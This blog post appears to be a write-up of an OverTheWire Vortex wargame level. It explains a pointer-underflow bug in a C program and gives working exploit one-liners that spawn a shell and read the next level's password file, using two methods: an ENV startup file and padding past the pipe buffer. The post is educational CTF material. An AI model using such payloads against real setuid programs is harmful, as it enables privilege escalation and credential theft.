 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 0"
---
```


![Logo](/assets/images/vortex1.png)

## Context
The level can be found [here](http://overthewire.org/wargames/vortex/vortex1.html). After analyzing the C source code, we understand the flow and information needed to exploit:
* There's a 512 bytes buffer and a pointer _`ptr`_ that initially points in the middle of the buffer.
* For every **\** character read, the pointer is decremented.
* For every character read which is different than **\n** and **\** we have the possibility to set a byte in _`ptr`_: 
> ptr++[0] = x;
* The _`e()`_ macro spawns an [interactive bash shell](http://www.gnu.org/software/bash/manual/bashref.html#Interactive-Shells) (**-i** parameter) and also replaces the image of the current process with _`/bin/sh`_, through [_`execlp`_](http://linux.die.net/man/2/execve) function. Very important to remember, from here: 
> By default, file descriptors remain open across an execve()
* The condition to trigger shell execution can be easily accomplished, given the third point.

Taken these into account, let's try to launch a shell and execute a command:
```bash
$ python -c 'print "\\"*257 + "\xca" + "A" + "\nwhoami"' | ./vortex1
```

The shell exits immediately, without executing the command. Now it's time to check what happens, how bash handles _`EOF`_.

### Method 1
Detailed on this post. The idea is that  when execlp is executed, the image of the current process is replaced with  /bin/sh. But execlp doesn't clear STDIN.  So the unparsed input it's still be there. The shell is exiting immediately, because it receives an EOF. To overcome this, something in the bash manual comes to help: "When invoked as an interactive shell with the name sh, bash looks for  the variable  ENV,  expands  its value if it is defined, and uses the expanded value as the name of a file to read and execute".
So we create a new file containing our commands, set the ENV variable before and get the password:
?
1
2
3
4
5
$ vi /tmp/cmd2
cat /etc/vortex_pass/vortex2
 
$ python -c 'print "\\"*257 + "\xca" + "A"' | env ENV=/tmp/cmd2 /vortex/vortex1
******


Method 2)

Some solutions report that a long string before the command causes the command to be actually executed, without an apparent explanation. Like this:
?
1
2
3
4
5
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*4000+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
$ vortex2
$ ******
$ 
To understand this, the following article explains the buffering applied to standard streams, with an example with two processes forked  by bash with a pipe between them: $ command1 | command2, similar with our case.  The idea is that the kernel uses 4096 bytes circular buffers (for stdin, stdout, and pipe). Being circular, the 4000 characters together with the existent content fill the buffer, and the next part of input does not contain an EOF and commands are executed. Actually, instead of the 4000 "A"s, we just need 4096-257-2-1=3836 extra characters.
?
1
2
3
4
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*3836+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ $ vortex2
$ ******
$ 
Posted by Liviu at 9:30 PM     
Email This
BlogThis!
Share to Twitter
